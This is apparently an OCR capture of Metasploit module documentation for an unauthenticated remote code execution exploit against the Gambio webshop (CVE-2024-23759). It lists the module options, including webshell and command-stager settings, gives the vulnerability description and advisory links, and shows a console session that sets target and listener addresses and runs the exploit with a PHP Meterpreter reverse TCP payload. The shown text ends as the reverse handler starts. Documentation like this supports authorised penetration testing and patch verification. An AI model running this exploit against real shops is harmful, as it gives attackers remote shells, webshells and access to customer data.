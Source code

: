 ```msf
  WEBSHELL                    no        Set webshell name without extension. Name will be randomly generated if
                                         left unset.


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address
                                       on the local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.


  When TARGET is not 0:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)

Payload information:

Description:
  A Remote Code Execution vulnerability in Gambio online webshop version 4.9.2.0 and lower
  allows remote attackers to run arbitrary commands via unauthenticated HTTP POST request.
  The identified vulnerability within Gambio pertains to an insecure deserialization flaw,
  which ultimately allows an attacker to execute remote code on affected systems.
  The insecure deserialization vulnerability in Gambio poses a significant risk to affected systems.
  As it allows remote code execution, adversaries could exploit this flaw to execute arbitrary commands,
  potentially resulting in complete system compromise, data exfiltration, or unauthorized access
  to sensitive information.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-23759
  https://attackerkb.com/topics/cxCsICfcDY/cve-2024-23759
  https://herolab.usd.de/en/security-advisories/usd-2023-0046/


View the full module info with the info -d command.
```

### Target 0 - PHP native `php/meterpreter/reverse_tcp` session
```msf
msf > use exploits/multi/http/gambio_unauth_rce_cve_2024_23759
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > set rhosts 192.168.201.25
rhosts => 192.168.201.25
msf exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > set ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
msf exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > set rport 80
rport => 80
msf exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
```